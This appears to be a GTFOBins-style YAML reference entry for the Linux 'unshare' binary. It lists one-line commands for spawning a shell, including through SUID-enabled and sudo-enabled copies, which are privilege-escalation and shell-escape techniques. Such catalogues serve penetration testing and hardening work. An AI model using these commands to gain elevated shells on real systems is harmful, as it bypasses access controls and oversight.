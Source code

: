 ```yaml
---
functions:
  execute-interactive:
  - code: unshare /bin/sh
  suid-enabled:
  - code: "./unshare -r /bin/sh"
  sudo-enabled:
  - code: sudo unshare /bin/sh
---
```


